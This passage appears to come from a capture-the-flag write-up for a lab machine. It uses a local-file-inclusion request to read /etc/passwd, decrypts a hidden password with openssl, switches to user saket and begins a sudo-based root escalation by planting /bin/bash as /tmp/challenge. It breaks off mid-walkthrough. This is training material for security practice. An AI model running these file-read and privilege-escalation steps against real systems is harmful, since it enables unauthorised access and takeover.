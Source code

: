 ```curl http://192.168.20.149/image.php?secrettier360=/etc/passwd```
\| openssl enc -aes-256-ecb -d -a -K
3336366137346362336339353964653137643631646233303539316333396431 \| base64 \|
base64 -d

Dont worry saket one day we will reach to

our destination very soon. And if you forget

your username then use your old password

==\> "tribute_to_ippsec"

Victor,

From above message it looks like the password for user saket is obtained. Now
it’s time to switch from www-data to saket.

www-data\@ubuntu:/home/saket\$ su saket

su saket

Password: tribute_to_ippsec

saket\@ubuntu:\~\$

Enumerating saket’s sudo privileges.

saket\@ubuntu:\~\$ sudo -l

sudo -l

Matching Defaults entries for saket on ubuntu:

env_reset, mail_badpass,

secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin

User saket may run the following commands on ubuntu:

(root) NOPASSWD: /home/victor/undefeated_victor

saket\@ubuntu:\~\$

### Exploitation

Running the command.

saket\@ubuntu:\~\$ sudo /home/victor/undefeated_victor

sudo /home/victor/undefeated_victor

if you can defeat me then challenge me in front of you

/home/victor/undefeated_victor: 2: /home/victor/undefeated_victor:
/tmp/challenge: not found

Seems like the SUID executable is requesting a file called challenge in /tmp/
folder.

Switching to tmp folder and copying /bin/bash as “challenge”.

saket\@ubuntu:\~\$ cd /tmp

```